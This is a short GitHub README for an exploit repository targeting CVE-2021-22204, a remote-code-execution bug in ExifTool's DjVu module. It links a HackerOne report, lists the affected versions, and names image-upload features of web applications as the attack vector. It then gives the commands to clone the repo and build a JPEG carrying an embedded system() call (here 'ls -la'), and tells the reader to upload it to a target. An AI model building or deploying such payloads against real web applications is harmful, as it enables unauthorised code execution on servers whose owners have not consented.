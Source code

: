 # JPEG_RCE
Exiftool bug which leads to RCE </br></br>
***CVE-2021-22204 - RCE***

</br>
*REFFERENCE*
 
</br>Related hackerone report : https://hackerone.com/reports/1154542 </br>

*VULNERABILITY*

ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images.</br>

*REQUIREMENTS*

if you are using other image ,it should be a valid jpeg/jpg file </br>
You can check that with exiftool 
</br>
The meta-data should be : 
<br>
`MIME Type                       : image/jpeg"`
</br>
</br>
*EXPLOIT VECTOR*

If the web application has a feature of uploading image and if the application is parsing the metadata of the uploaded image file using exiftool, you can always give a try with this exploit </br>
</br>
*NOTE*

The exiftool version should be between  7.44 to 12.23. </br>
</br>
*COMMAND (exploit)* 

`git clone https://github.com/OneSecCyber/JPEG_RCE.git`
</br> 
</br> `cd JPEG_RCE`
</br>
<br> `exiftool -config eval.config runme.jpg -eval='system("ls -la")'`
</br>
<br>
It will create malicious jpg file </br>
Upload the file or run the file in you local system to see the magic.. 
</br>
<br>
`exiftool runme.jpg `
</br>
